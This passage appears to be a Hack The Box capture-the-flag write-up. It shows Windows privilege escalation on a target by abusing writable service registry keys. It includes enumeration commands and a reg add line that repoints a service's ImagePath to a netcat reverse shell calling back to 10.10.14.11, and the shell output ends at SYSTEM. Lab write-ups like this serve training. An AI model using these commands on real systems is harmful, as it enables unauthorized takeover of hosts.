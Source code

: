     We get hundreds of lines of output, all saying that all services are writeable with "KEY_ALL_ACCESS" permissions.


3. We need a way to filter the output, giving us the attack vector. We do this in 3 steps.
 A) List all Services in a .txt. The -kw flags list registry key (-k) and only writable services (-w)
  PS C:\Users\Hector\Documents> .\ack.exe "hector" -kw hklm\System\CurrentControlSet\Services > \\10.10.14.11\pub-share\services.txt

 B) Query all services to see which service we are allowed. Sort the allowed services in a list.
  PS C:\Users\Hector\Documents> sc.exe qc applockerfltr

 C) Start all the allowed services from step B, filter the services that we are allowed to start. We now have our attack vector(s)
  PS C:\Users\Hector\Documents> sc.exe start NetSetupSvc


4. We now have a list of vulnerable services that we can exploit. The next steps are time sensitive so we need to be quick.
   Start by changing the binpath of a vulnerable service to do whatever you like, I chose to setup a reverse shell.
    PS C:\Users\Hector\Documents> reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\NetSetupSvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Hector\Documents\nc64.exe 10.10.14.11 4400 -e powershell" /f

   Confirm that the path has been changed.
    PS C:\Users\Hector\Documents> reg query "HKLM\System\CurrentControlSet\Services\NetSetupSvc" /v "ImagePath"

      HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\NetSetupSvc
        ImagePath    REG_EXPAND_SZ    C:\Users\Hector\Documents\nc64.exe 10.10.14.11 4400 -e powershell

   Start the service and receive your reverse shell. Grab flag before the service fails.
    PS C:\Users\Hector\Documents> sc.exe start NetSetupSvc
    root@p3:/opt/htb/machines/control# nc -lnvp 4400
      listening on [any] 4400 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.167] 49903
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\Windows\system32> whoami
        nt authority\system
      PS C:\Users\Administrator\Desktop> type root.txt
        8f86****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
